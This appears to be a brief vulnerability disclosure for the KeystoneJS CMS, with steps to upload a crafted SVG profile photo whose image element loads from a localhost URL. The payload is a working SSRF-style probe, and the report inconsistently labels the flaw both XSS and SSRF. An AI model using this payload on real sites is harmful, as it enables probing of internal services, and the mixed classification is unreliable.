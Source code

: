 # :book: Description 
 

 `KeystoneJS` is a powerful Node.js content management system and web app framework built on the Express web framework and Mongoose ODM. Keystone makes it easy to create sophisticated web sites and apps, and comes with a beautiful auto-generated Admin UI. This package is vulnerable for `(XSS)`.

https://github.com/keystonejs/keystone-classic

# :recycle:  Steps To Reproduce-:  
  0) download and run latest release from https://github.com/keystonejs/keystone-classic use demo http://demo.keystonejs.com/
  1) upload svg file as user profile photo. Payload used :
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" style="position:relative" width="300" height="200" overflow="hidden">
<image x="10" y="10" width="276" height="110" xlink:href="http://localhost:8080/svg"/>
<path d="M0 150h300v10H0z"/>
</svg>
```
# :telescope: POC

https://drive.google.com/file/d/1Rqsbr9_ijoHOa949B9Q1cM2jv8jb4zwV/view?usp=sharing
## 💥 Impact
SSRF
